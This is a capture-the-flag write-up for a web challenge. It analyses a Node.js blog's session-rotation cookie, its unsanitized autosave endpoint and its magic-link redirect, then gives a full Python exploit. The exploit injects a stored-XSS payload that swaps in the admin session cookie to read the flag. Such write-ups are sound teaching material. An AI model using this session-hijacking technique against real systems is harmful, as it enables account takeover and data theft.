


## UofTCTF 2026 - Personal Blog Write-up



### Step 1: Source Code Analysis

The challenge provides the source code for a "Personal Blog" application built with Node.js and Express. It also includes an admin bot that can visit URLs. The objective is to retrieve the flag located at `/flag`, which is restricted to users with `isAdmin: true`.

Upon reviewing `server.js`, three critical behaviors stood out:

1.  **Session Rotation (The "sid_prev" Cookie):**
    When a user logs in (either via password or magic link), if a session cookie (`sid`) already exists, the server doesn't destroy it. Instead, it moves the old session ID to a cookie named `sid_prev`.
    ```javascript
    const existingSid = req.cookies.sid;
    if (existingSid) {
        res.cookie('sid_prev', existingSid, cookieOptions());
    }
    const sid = createSession(db, user.id);
    res.cookie('sid', sid, cookieOptions());
    ```
    Crucially, `cookieOptions()` sets `httpOnly: false`, allowing JavaScript to read and modify these cookies.

2.  **Unsanitized "Autosave" (The XSS Vector):**
    There are two ways to save a post:
    *   `/api/save`: Uses `DOMPurify` to sanitize input. Safe.
    *   `/api/autosave`: **Does not sanitize input.** It saves raw HTML into `post.draftContent`.
    ```javascript
    app.post('/api/autosave', requireLogin, (req, res) => {
        // ...
        const rawContent = String(req.body.content || '');
        post.draftContent = rawContent; // Vulnerable
        // ...
    });
    ```
    The `/edit/:id` route renders this `draftContent` using `<%- draftContent %>` (unescaped), leading to Stored XSS. Normally, this is just Self-XSS because you can only edit your own posts.

3.  **Magic Links:**
    The `/magic/:token` endpoint logs a user in and supports a `redirect` parameter.

### Step 2: Attack Strategy

We can chain these behaviors to escalate privileges:

1.  **Setup:** We register an attacker account and create a post.
2.  **Payload Injection:** We use `/api/autosave` to inject a malicious JavaScript payload into our post. This payload will:
    *   Check for the `sid_prev` cookie.
    *   Swap `sid` (Attacker) with `sid_prev` (Admin).
    *   Fetch the flag from `/flag`.
    *   Save the flag back into the post content so we can read it.
3.  **Delivery:** We generate a Magic Link for our *attacker* account.
4.  **The Trap:** We construct a URL that sends the Admin Bot to our Magic Link, with a redirect to our malicious post editor:
    `http://localhost:3000/magic/<ATTACKER_TOKEN>?redirect=/edit/<POST_ID>`
5.  **Execution:** When the bot visits this link:
    *   It logs in as the attacker.
    *   Its original Admin session is moved to `sid_prev`.
    *   It is redirected to the editor, where the XSS executes.
    *   The script steals the Admin session from `sid_prev`, grabs the flag, and saves it.

### Step 3: Proof of Work and Exploit

The `/report` endpoint requires solving a Proof of Work (PoW) challenge based on modular square roots. I implemented a solver for this and automated the entire attack chain in Python.

Here is the complete exploit script:

```python
import requests
import re
import time
import base64
import json
import secrets

# Configuration
BASE_URL = "http://34.26.148.28:5000"
USERNAME = f"hacker_{secrets.token_hex(4)}"
PASSWORD = "password123"

# Function to solve Proof of Work
def solve_pow(challenge_str):
    print(f"[*] Solving PoW: {challenge_str}")
    version, diff_b64, x_b64 = challenge_str.split('.')
    difficulty = int.from_bytes(base64.b64decode(diff_b64), 'big')
    x = int.from_bytes(base64.b64decode(x_b64), 'big')
    
    # Constants from server.js
    POW_MOD = (1 << 1279) - 1
    
    # Reverse calculation algorithm (Modular Square Root)
    # Since P = 3 mod 4, root is calculated as a^((P+1)/4)
    curr = x
    for _ in range(difficulty):
        # Check quadratic residue (Legendre symbol)
        # If curr is not a residue, -curr must be
        if pow(curr, (POW_MOD - 1) // 2, POW_MOD) != 1:
            curr = (-curr) % POW_MOD
            
        # Calculate root
        root = pow(curr, (POW_MOD + 1) // 4, POW_MOD)
        # Inverse operation to XOR 1
        curr = root ^ 1
        
    solution_bytes = curr.to_bytes((curr.bit_length() + 7) // 8, 'big')
    solution_b64 = base64.b64encode(solution_bytes).decode()
    return f"{version}.{solution_b64}"

def main():
    s = requests.Session()
    
    # 1. Registration
    print(f"[*] Registering user {USERNAME}...")
    r = s.post(f"{BASE_URL}/register", data={"username": USERNAME, "password": PASSWORD})
    
    # 2. Login
    print("[*] Logging in...")
    r = s.post(f"{BASE_URL}/login", data={"username": USERNAME, "password": PASSWORD})
    
    # 3. Get Magic Link
    print("[*] Generating magic link...")
    s.post(f"{BASE_URL}/magic/generate")
    r = s.get(f"{BASE_URL}/account")
    magic_token_match = re.search(r'/magic/([a-f0-9]+)', r.text)
    if not magic_token_match:
        print("[-] Failed to get magic token")
        return
    magic_token = magic_token_match.group(1)
    print(f"[+] Magic token: {magic_token}")
    
    # 4. Create Post and get ID
    print("[*] Creating post...")
    r = s.get(f"{BASE_URL}/edit") # Redirects to /edit/<id>
    post_url = r.url
    post_id = post_url.split('/')[-1]
    print(f"[+] Post ID: {post_id}")
    
    # 5. Inject XSS payload via autosave
    # Payload switches cookies, gets flag, and saves it back to the post
    js_payload = f"""
    (async () => {{
        const getCookie = (n) => {{
            const v = `; ${{document.cookie}}`;
            const p = v.split(`; ${{n}}=`);
            if (p.length === 2) return p.pop().split(';').shift();
        }};
        
        const adminSid = getCookie('sid_prev');
        const mySid = getCookie('sid');
        
        if (adminSid) {{
            // Become admin
            document.cookie = `sid=${{adminSid}}; path=/`;
            try {{
                // Fetch flag
                const resp = await fetch('/flag');
                const flag = await resp.text();
                
                // Switch back to our account
                document.cookie = `sid=${{mySid}}; path=/`;
                
                // Save flag to the post
                await fetch('/api/save', {{
                    method: 'POST',
                    headers: {{'Content-Type': 'application/json'}},
                    body: JSON.stringify({{ postId: {post_id}, content: flag }})
                }});
            }} catch(e) {{
                document.cookie = `sid=${{mySid}}; path=/`;
                await fetch('/api/save', {{
                    method: 'POST',
                    headers: {{'Content-Type': 'application/json'}},
                    body: JSON.stringify({{ postId: {post_id}, content: e.toString() }})
                }});
            }}
        }}
    }})();
    """
    
    print("[*] Injecting XSS payload...")
    xss_content = f"<script>{js_payload}</script>"
    r = s.post(f"{BASE_URL}/api/autosave", json={"postId": int(post_id), "content": xss_content})
    if not r.ok:
        print("[-] Failed to save XSS")
        return

    # 6. Get PoW challenge
    print("[*] Getting PoW challenge...")
    r = s.get(f"{BASE_URL}/report")
    pow_match = re.search(r'name="pow_challenge" value="([^"]+)"', r.text)
    if not pow_match:
        print("[-] No PoW challenge found")
        return
    else:
        pow_chal = pow_match.group(1)
        pow_sol = solve_pow(pow_chal)
        print(f"[+] PoW Solution: {pow_sol}")

    # 7. Send Bot
    target_url = f"http://localhost:3000/magic/{magic_token}?redirect=/edit/{post_id}"
    print(f"[*] Reporting URL: {target_url}")
    
    r = s.post(f"{BASE_URL}/report", data={
        "url": target_url,
        "pow_challenge": pow_chal,
        "pow_solution": pow_sol
    })
    
    if "Admin is on the way" in r.text:
        print("[+] Admin is visiting...")
    else:
        print("[-] Report failed")
        return

    # 8. Wait and Retrieve Flag
    print("[*] Waiting for admin execution (10s)...")
    time.sleep(10)
    
    print("[*] Checking post content for flag...")
    r = s.get(f"{BASE_URL}/post/{post_id}")
    
    flag_match = re.search(r'uoftctf\{[^}]+\}', r.text)
    if flag_match:
        print(f"\n[SUCCESS] FLAG: {flag_match.group(0)}\n")
    else:
        print("[-] Flag not found in post.")

if __name__ == "__main__":
    main()
```

### Step 4: Execution

The script successfully registered a user, injected the payload, solved the proof-of-work, and retrieved the flag from the compromised post.



### Flag
`uoftctf{533M5_l1k3_17_W4snt_50_p3r50n41...}`